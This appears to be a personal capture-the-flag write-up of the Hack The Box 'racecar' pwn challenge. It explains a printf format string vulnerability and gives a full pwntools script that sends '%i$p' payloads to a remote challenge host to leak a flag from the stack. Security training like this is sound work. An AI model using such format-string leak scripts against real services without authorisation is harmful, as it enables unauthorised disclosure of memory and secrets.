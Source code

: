 
2024-07-30 15:14

Source: #htb 
 
Tags: [[Binary Exploit]] [[Format String Vulnerabilities (printf)]]
## Gist 

- We are given a binary that takes a bunch of Boolean inputs and if it matches a randomly generated value (referred to as winning) then it gives you an option to input some data that gets stored in the stack and reveals the flag.
- now, if you win then the code checks if a `flag.txt` exists in the working directory and if it doesn't then it throws an error.
- create a `flag.txt` in the working directory and populate the file with some AAAA's further run the `pwntool` script and get the answer 
`echo AAAAAAAAAAA  >  flag.txt`
### Recon

open the file `dogbolt` online and on seeing the o/p from `Ghidra` we see - 
1. that the `flag.txt` is opened in read mode and returns a pointer to `__stream`.

2. The [[fgets]] function reads a line from the file pointed to by `__stream` (the flag) and stores it in the buffer `local_3c`, which is an array of size `0x2c` (44 bytes).

3. The `read(0, __format, 0x170)` reads my input and stores it in the buffer `__format` of size `0x170` (368 bytes).
### Vulnerability Analysis 

My input is printed at the [[printf]], but our input is not checked, hence we can perform a format string attack. 
More information about format string attacks can be read here: [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack).

If I run the binary and give many `%p`’s, data on the stack will be leaked in hexadecimal.
when doing this you will notice some addresses as `0x41414141` these will be the `AAAA` you added to your `flag.txt`
### Mimic user input via pwntools

```
from pwn import *

flag = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        io = remote('94.237.59.199', 55496)
        io.sendlineafter(b'Name: ', b'anas')
        io.sendlineafter(b'Nickname: ', b'something')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'1')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendlineafter(b'> ', '%{}$p'.format(i).encode())
        # Receive the response
        io.recvline()
        io.recvline()
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```
### References
https://app.hackthebox.com/challenges/racecar

walkthroughs - 
[Hack the Box rev HTB_RACECAR (pwnjournal.github.io)](https://pwnjournal.github.io/HTB_RACECAR/)
[HTB pwn →‘racecar’. | by Apothiphis_z | Medium](https://medium.com/@fracchetto1995/htb-pwn-racecar-f9206cfd943f)
[HTB: Racecar - remoteshell.zip](https://remoteshell.zip/racecar/)
[Racecar | WriteUps (gitbook.io)](https://sayonara.gitbook.io/writeups/hackthebox/challenges/pwn/racecar)
